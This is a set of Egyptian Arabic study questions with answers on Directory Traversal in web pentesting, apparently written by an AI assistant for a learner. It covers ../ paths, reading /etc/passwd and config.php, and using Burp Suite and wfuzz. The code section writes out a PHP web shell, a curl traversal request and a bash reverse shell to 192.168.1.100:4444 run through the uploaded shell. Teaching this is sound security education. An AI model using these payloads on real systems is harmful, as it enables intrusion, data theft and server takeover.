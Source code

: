 إليك الأسئلة مع الإجابات مباشرة بعد كل سؤال، مع زيادة أسئلة الفهم العميق كما طلبت، وفي جزء الخلاصة السؤال هيكون "قولي الخلاصة بتاعت الجزء":

---

### **أسئلة إكمال الفراغات**
1. Directory Traversal هو نوع من الثغرات اللي بيسمح للمهاجم يوصل لملفات برا ______.  
   **المجلد المحدد**

2. المهاجم بيستخدم ______ عشان يتحرك لمجلدات أعلى في النظام.  
   **../**

3. لو لقيت ثغرة Directory Traversal في موقع، ممكن تفتح ملف زي ______ في لينكس.  
   **/etc/passwd**

4. أداة ______ بتساعدك تعترض طلبات الويب وتعدل الـ Parameter عشان تستغل الثغرة.  
   **Burp Suite**

5. لو الثغرة بتسمح بكتابة، ممكن ترفع ملف ______ عشان تتحكم في السيرفر.  
   **Shell.php**

---

### **أسئلة صح وغلط**
6. Directory Traversal بيسمح للمهاجم يكتب أكواد برمجية على السيرفر دايمًا. (صح/غلط)  
   **غلط** - بيعتمد على إذا كانت الثغرة تسمح بالكتابة أو القراءة بس.

7. استخدام `../` في رابط بيخليك تطلع لمجلدات أعلى في النظام. (صح/غلط)  
   **صح**

8. الثغرة دي مش خطيرة لو ما قدرتش تقرأ ملفات حساسة. (صح/غلط)  
   **غلط** - حتى لو مش ملفات حساسة، بتكشف النظام وممكن تكون خطوة لتصعيد.

9. أداة Nmap بتستخدم لاختبار Directory Traversal يدويًا. (صح/غلط)  
   **غلط** - Nmap بتفحص الخدمات، مش بتختبر الثغرة يدويًا.

10. لو وصلت لـ `config.php` من الثغرة، ممكن تاخد كلمة سر قاعدة البيانات. (صح/غلط)  
    **صح**

---

### **أسئلة اختيار من متعدد**
11. إيه الملف اللي ممكن المهاجم يقراه بـ Directory Traversal في لينكس؟  
    أ) /var/www/html/index.html  
    ب) /etc/passwd  
    ج) /tmp/log.txt  
    د) /home/user/photos  
    **ب) /etc/passwd**

12. إيه الأداة اللي بتستخدمها عشان تفحص الهدف في الخطوة الأولى من الـ Pentesting؟  
    أ) Burp Suite  
    ب) Nmap  
    ج) wfuzz  
    د) curl  
    **ب) Nmap**

13. إيه من اللي بيحصل لو استغليت Directory Traversal بنجاح؟  
    أ) سرقة بيانات حساسة  
    ب) تصعيد صلاحيات  
    ج) كشف تفاصيل النظام  
    د) كل اللي فوق  
    **د) كل اللي فوق**

14. إيه اللي بيخلي الثغرة تحصل في التطبيق؟  
    أ) سوء فلترة الإدخال  
    ب) استخدام متصفح قديم  
    ج) غلط في كتابة الكود فقط  
    د) نقص في التحديثات  
    **أ) سوء فلترة الإدخال**

15. إيه الأمر اللي بيستخدم في الـ Shell عشان تتحقق من هويتك بعد ما تاخد shell؟  
    أ) whoami  
    ب) id  
    ج) uname -r  
    د) sudo -l  
    **ب) id**

---

### **أسئلة "لماذا" لتفسير المفاهيم**
16. ليه Directory Traversal بيعتبر ثغرة أمنية؟  
    **لأنه بيسمح للمهاجم يطلع برا المجلد المحدد ويوصل لملفات المفروض محمية.**

17. ليه المهاجم بيستخدم `../` في الثغرة دي؟  
    **عشان يتحرك لمجلدات أعلى في النظام ويفتح ملفات خارج الحدود.**

18. ليه الثغرة بتكون خطيرة حتى لو ما قدرتش تكتب ملفات؟  
    **لأنها بتكشف ملفات حساسة زي كلمات السر أو إعدادات النظام.**

19. ليه الـ Pentester بيستخدم أدوات زي Burp Suite في اختبار الثغرة؟  
    **عشان يعترض الطلبات ويعدل الـ Parameters بسهولة ويشوف استجابة الموقع.**

20. ليه الوصول لـ `config.php` بيعتبر كنز في الثغرة دي؟  
    **لأنه بيديك بيانات زي كلمة سر قاعدة البيانات تقدر تستغلها لتحكم أكبر.**

---

### **أسئلة ربط المفاهيم ببعضها**
21. إزاي تربط بين سوء فلترة الإدخال وDirectory Traversal؟  
    **سوء الفلترة بيسمح للمهاجم يدخل `../` ويطلع برا المجلد المحدد.**

22. إيه العلاقة بين Directory Traversal وتصعيد الصلاحيات؟  
    **بتقرأ ملفات زي `config.php` أو تكتب Shell عشان تاخد تحكم أعلى في النظام.**

23. إزاي Nmap بيساعدك في استغلال Directory Traversal؟  
    **بيكشف الخدمات المفتوحة زي Apache اللي ممكن تحتوي على الثغرة.**

24. إزاي الوصول لـ `/etc/passwd` بيفتح الباب لاستغلال أعمق؟  
    **بتعرف أسماء المستخدمين وتستخدمها مع بيانات تانية لتصعيد الصلاحيات.**

25. إيه الرابط بين كتابة Shell واستخدام Directory Traversal؟  
    **لو الثغرة بتسمح بالكتابة، ترفع Shell عشان تتحكم في السيرفر من خلالها.**

---

### **أسئلة للفهم (عميقة)**
26. اشرح بكلماتك إيه اللي بيحصل لما تستغل Directory Traversal في موقع ويب؟  
    **بتدخل رابط بياخد اسم ملف، وبتعدله بـ `../` عشان تطلع برا المجلد وتشوف ملفات حساسة زي `/etc/passwd`.**

27. إزاي ممكن تحول Directory Traversal من قراءة ملفات لتحكم كامل في السيرفر؟  
    **بتكتب ملف Shell لو الثغرة بتسمح، وبعدين تشغل أوامر منه عشان تاخد Shell وتصعد صلاحيات.**

28. لو موقع بيستخدم دالة `file_get_contents()` من غير فلترة، إيه المخاطر اللي ممكن تحصل؟  
    **المهاجم يقدر يدخل أي مسار زي `../etc/passwd` ويقرأ ملفات المفروض مخفية.**

29. إزاي الثغرة دي بتفرق عن ثغرات زي SQL Injection من ناحية الهدف؟  
    **Directory Traversal بتركز على الوصول لملفات النظام، بينما SQL Injection بتهدف لقاعدة البيانات.**

30. ليه المهاجم بيزود عدد `../` في الرابط لو الثغرة ما نجحتش من أول مرة؟  
    **عشان يتأكد إنه طلع للمجلد الجذر (root directory) ووصل للملف المطلوب.**

31. اشرح إزاي الوصول لـ `config.php` بيفتح الباب لخطوات أكبر في الهجوم؟  
    **بتلاقي بيانات زي كلمة سر قاعدة البيانات، تستخدمها تدخل الـ Database وتسرق كل المعلومات.**

32. لو الثغرة مش بتسمح بكتابة، إزاي تقدر تستفيد منها في الـ Pentesting؟  
    **بتقرأ ملفات زي `/etc/passwd` أو إعدادات النظام وتستخدمها كمعلومات لخطوة تصعيد تانية.**

33. إيه اللي بيخلّي الثغرة دي تكون "كنز" للـ Pentester؟  
    **لأنها بتكشف بيانات حساسة بسهولة وبتدي نقطة انطلاق لتحكم أكبر.**

34. اشرح الفرق بين استغلال الثغرة في لينكس وويندوز من ناحية المسار؟  
    **في لينكس بتستخدم `../` وملفات زي `/etc/passwd`، وفي ويندوز `..\` وملفات زي `C:\Windows\system32\config\SAM`.**

---

### **أسئلة كتابة كود**
35. اكتب رابط يدوي عشان تختبر Directory Traversal في موقع ويب.  
    **http://target.com/file?path=../etc/passwd**

36. اكتب أمر curl عشان تطلع ملف `/etc/passwd` من موقع.  
    **curl http://target.com/file?path=../../etc/passwd**

37. اكتب كود PHP بسيط ترفعه لو الثغرة بتسمح بكتابة.  
    **<?php system($_GET['cmd']); ?>**

38. اكتب أمر wfuzz عشان تختبر الثغرة تلقائيًا (مع wordlist بسيط).  
    **wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --hc 404 http://target.com/file?path=../../FUZZ**

39. اكتب أمر في الـ Shell عشان تاخد shell تفاعلي بعد ما ترفع ملف PHP.  
    **http://192.168.1.10/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1**

---

### **أسئلة الخلاصة**
40. قولي الخلاصة بتاعت الجزء الأول ("إيه هو Directory Traversal؟").  
    **"يعني زي ما تكون في أوضة في بيت، بس لقيت سلم سري يطلعك لأوض تانية المفروض ماتخشّهاش! Directory Traversal يعني بتطلع برا السجن بتاعك وتشوف أسرار البيت كله."**

41. قولي الخلاصة بتاعت الجزء التاني ("ليه المشكلة دي خطيرة؟").  
    **"الثغرة دي خطيرة لأنها زي ما تكون لقيت خريطة البيت كله، تقدر تفتح أي أوضة وتاخد اللي فيها! المهاجم يلاقيها، يبقى زي اللي مسك مفتاح الخزنة."**

42. قولي الخلاصة بتاعت الجزء التالت ("إزاي نستغلها في الـ Pentesting؟").  
    **"لما تلاقي الثغرة دي، زي ما تكون لقيت باب سري في لعبة، تفتحه وتبقى الكبير بتاع الماتش من غير ما حد يحس!"**

43. قولي الخلاصة بتاعت الجزء الرابع ("خطوات عملية للاستغلال في Pentesting").  
    **"الخطوات دي زي ما تكون لقيت خرم في السقف، طلعت منه، فتحت كل الأوض، وطلعت الكبير بتاع الحتة! Directory Traversal طريقك للفوز بسهولة لو لقيتها."**

44. قولي الخلاصة النهائية بتاعت النص كله.  
    **"Directory Traversal هي ثغرة كبيرة لأنها بتخلّيك تتحرك برا الحدود وتشوف أو تعدل ملفات حساسة. في الـ Pentesting، دور عليها في الروابط باستخدام `../` أو أدوات زي Burp، استغلها عشان تسرق بيانات أو تاخد Shell، ووري العميل إن نظامه زي بيت مفتوح من غير أسوار! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!"**

---

كده الأسئلة مغطية النص كامل مع زيادة في أسئلة الفهم العميق (من 26 لـ 34) عشان تفهم كل التفاصيل بعمق. لو عايز أي زيادة أو تعديل، قول لي!